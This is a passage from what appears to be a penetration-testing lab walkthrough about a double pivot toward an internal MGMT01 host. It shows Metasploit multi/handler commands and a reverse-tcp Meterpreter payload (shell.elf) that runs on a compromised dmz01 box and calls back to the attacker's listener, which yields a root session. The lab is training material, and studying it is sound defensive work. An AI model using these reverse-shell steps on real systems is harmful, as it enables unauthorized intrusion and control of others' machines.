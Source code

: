
---

## The Double Pivot - MGMT01

Now there are a few ways to do this next part, we'll take the long route so we can ultimately SSH directly into the `172.16.9.25` host from our attack box, performing a bit of a mindbending double pivot in the process. Here is what we are trying to achieve, starting from our attack host and pivoting through the dmz01 and DC01 hosts to be able to SSH directly into the MGMT01 host two hops away directly from our attack host.

`Attack host` --> `dmz01` --> `DC01` --> `MGMT01`

We'll need to establish a reverse shell from the `dmz01` box back to our attack host. We can do this the same we way did in the `Internal Information Gathering` section, creating an ELF payload, uploading it to the target and executing it to catch a shell. Start by creating the ELF payload and uploading it back to the dmz01 host via SCP if you removed it.

Next, set up the Metasploit `exploit/multi/handler`.

Post-Exploitation

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 10.10.14.15 
lhost => 10.10.14.15
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 443
LPORT => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443
```

Once again, execute the `shell.elf` file on the target system:

Post-Exploitation

```shell-session

root@dmz01:/tmp# chmod +x shell.elf 
root@dmz01:/tmp# ./shell.elf 
```

Catch the Meterpreter shell using the multi/handler.

Post-Exploitation

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (989032 bytes) to 10.129.203.111
[*] Meterpreter session 1 opened (10.10.14.15:443 -> 10.129.203.111:58462 ) at 2022-06-21 21:28:43 -0400

(Meterpreter 1)(/tmp) > getuid
Server username: root
```
